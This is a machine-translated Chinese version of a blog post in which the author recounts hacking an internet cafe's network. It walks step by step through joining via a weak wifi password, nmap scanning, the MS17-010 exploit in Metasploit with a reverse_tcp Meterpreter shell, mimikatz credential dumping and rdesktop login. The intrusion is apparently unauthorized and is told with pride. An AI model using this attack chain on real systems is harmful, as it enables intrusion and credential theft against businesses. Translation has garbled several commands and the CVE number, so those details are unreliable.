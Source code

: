 # 我是怎么黑进网吧的？

> 原文：<https://infosecwriteups.com/how-i-hacked-into-an-internet-cafe-4140cc4103d8?source=collection_archive---------0----------------------->

刚刚结束期末考试，所以我想为什么不写一篇关于我最喜欢的黑客的文章。这是我几个月前进行的一次老黑客攻击，但它在今天仍然与运行传统操作系统且不定期更新的系统密切相关。这篇文章离我很近，因为这是我第一次能够打开远程桌面客户端。

# 介绍

让我给你介绍一下黑客的概况，我通过闯入 wifi 接入点进入网络，然后利用系统容易受到中小企业攻击的事实(CVE-2017–010)，其端口 445 是开放的。然后，我使用 Metasploit 启动一个反向 shell 并获得对系统的控制，然后我加载 mimikatz 以获得登录凭证，然后使用 remote desktop client，这使我能够完全访问文件和文件夹。

说起来容易做起来难，让我给你看看整个事情是如何进行的。

# 让我们开始吧！

所以，黑客攻击从我通过他们的 wifi 进入他们的网络开始，这个 wifi 有一个愚蠢的密码保护，这是非常常见的(123pass456)，你可以在这里阅读我用什么方法实现的-> [黑客 wifi](https://medium.com/bugbountywriteup/how-i-hacked-into-my-neighbours-wifi-and-harvested-credentials-487fab106bfc) 。

嗯，一旦我进入他们的网络，我就执行基本的 nmap 命令，以便更好地了解连接到他们网络的 PC、打印机或电话。

![](img/35fbd2ede985b0a3441257cc7c9abd0d.png)

一旦我获得了他们网络上所有系统的 IP 地址，我就使用 nmap 扫描每个系统，然后我发现了这个。

![](img/733257d08ac1c1d74159e4c97d6920a8.png)

# 黑客！

我特别关注 445 端口。我直接使用了 nmap 默认提供的脚本。

> root @ kali:~ # CD/usr/share/nmap/scripts/

有一次，我在 scripts 文件夹中搜索 smb 漏洞。

> root@kali:~#ls *smb*

![](img/436214cdddae5d0b851d7f88f9b66187.png)

我看到了上面的图像，通过它们我继续使用 sm b-vuln-ms17–010 . NSE。要使用它，我必须使用这个命令

> root@kali:~#nmap -p 135，136，445-script = sm b-vuln-ms-17–010 . NSE 10 . 1 . 32 . 17-v

![](img/c498561d2c455495fb7bc487d6e8849a.png)

我看到了以下输出。如你所见，风险系数很高，所以我的莫拉莱斯非常高，因为我确信现在攻击肯定会通过。进一步攻击机器的目的是弄清楚利用这个漏洞我可以获得多少访问权限。

我马上打开 metaspolit，输入以下命令

> msf >使用 exploit/windows/SMB/ms17 _ 010 _ psexec

这是我用来开始利用 metasploit 的第一个命令。

> MSF exploit(windows/SMB/ms17 _ 010 _ psexec)>设置有效负载 windows/meter preter/reverse _ TCP

这个命令用来指定我要使用的漏洞利用，就是基于这个漏洞。

> msf 漏洞利用(windows/smb/ms17_010_psexec)>设置 LHOST 10.1.37.143
> 
> MSF exploit(windows/SMB/ms17 _ 010 _ psexec)> set RHOST 10 . 1 . 32 . 17

在上面的命令中，我指定了 LHOST 和 RHOST。LHOST ip 是执行攻击的人的 IP 地址，而 RHOST IP os 是被执行攻击的人的 IP 地址。

> msf 漏洞利用(windows/smb/ms17_010_psexec)>漏洞利用

一旦攻击向量被填充，我就开始利用。

![](img/38405c732aea3b81f87a1dbb1098d34b.png)

然后它就出现了，米特尔外壳。现在，即使是对黑客感兴趣的普通人也知道，一旦我有了这个，我就几乎完全控制了系统。

所以，现在是我开始开发 rdp 客户端的时候了。为了实现这一点，我输入了以下命令。

> meterpreter >加载 mimikatz

**Mimikatz 是**一个开源实用程序，支持通过其 sekurlsa 模块查看来自 Windows lsass(本地安全授权子系统服务)的凭证信息，其中包括明文密码

> meterpreter>kerberos

我这样做是为了找出受害者系统的用户名和密码。

![](img/e7008d6fe326f320ff41c5021747b06a.png)

我一拿到证书。我打开了一个新的终端，并开始远程桌面客户端尝试远程登录系统。

> root@kali~:rdesktop 10.1.32.17

这启动了远程桌面客户端，我输入了登录凭证，嘣！

![](img/b8c1e0cd85325c9b317409e3a525e959.png)

这给了我对系统的完全访问权，因为我可以操纵任何超过这一点的东西。

# 道德的

这是一个令人难以置信的攻击场景，因为在大多数 reverse_tcp meterpreter shell 中，您需要用户进行某种交互，或者程序需要在系统中运行，而这个特定的漏洞并不需要这样做，因此保护您免受此类攻击的最佳方法是随时更新您的系统操作系统。

附:文章中使用的图片不是来自我的攻击，而是来自我的一个朋友，他在不同的系统上进行了相同的攻击。这些图片已经得到了所有者的许可。

你可以在这里观看他发表的视频>【https://bit.ly/2r3jszO

**如果你喜欢，请鼓掌&让我们合作。获取、设置、破解！**

网址:[aditya12anand.com](https://www.aditya12anand.com/)|捐赠:[paypal.me/aditya12anand](https://paypal.me/aditya12anand)

电报:[https://t.me/aditya12anand](https://t.me/aditya12anand)

推特:[twitter.com/aditya12anand](https://twitter.com/aditya12anand?source=post_page---------------------------)

领英:[linkedin.com/in/aditya12anand/](https://www.linkedin.com/in/aditya12anand/?source=post_page---------------------------)

电子邮件:aditya12anand@protonmail.com